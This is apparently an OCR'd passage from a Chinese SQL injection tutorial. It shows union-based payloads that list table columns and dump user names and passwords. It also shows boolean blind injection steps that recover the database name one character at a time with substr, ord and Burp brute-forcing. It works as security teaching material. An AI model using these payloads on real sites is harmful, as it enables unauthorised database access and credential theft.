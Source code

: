 **6、查询数据库字段**

```sql
id=-1%27 union select 1,2,3,column_name from information_schema.columns where table_schema=%27数据库名%27 and table_name=%27表名%27limit 0,1#
```

**7、脱裤，获取数据**

```sql
union select 1,2,3,group_concat(name,password)%20from%20sc#
--用字段名从表中取数据
group_concat(str1,str2,...)	--连接一个组的所有字符串
```

## Boolean注入

布尔型盲注，页面不返回查询信息的数据，只能通过页面返回信息的真假条件判断是否存在注入。

**1、在参数后添加引号尝试报错，并用`and 1=1#`和`and 1=2#`测试报错**

```sql
?id=1' and 1=1#		页面返回正常
?id=1' and 1=2#		页面返回不正常
```

**2、判断数据库名的长度**

```sql
1'and length(database())>=1--+		页面返回正常
1'and length(database())>=13--+		页面返回正常
1'and length(database())>=14--+		页面返回错误

由此判断得到数据库名的长度是13个字符
```

**3、猜解数据库名**

使用逐字符判断的方式获取数据库名；

数据库名的范围一般在a~z、0~9之内，可能还会有特殊字符 "_"、"-" 等，这里的字母不区分大小写。

```sql
' and substr(database(),1,1)='a'--+
' and substr(database(),2,1)='a'--+

substr 的用法和 limit 有区别，limit从 0 开始排序，这里从 1 开始排序。
```

用Burp爆破字母a的位置，即可得到数据库名每个位置上的字符。

**还可以用ASCII码查询**

a 的ASCII码是97，在MySQL中使用ord函数转换ASCII，所以逐字符判断语句可改为：

```sql
' and ord(substr(database(),1,1))=97--+
```

ASCII码表中可显示字符的范围是：0~127

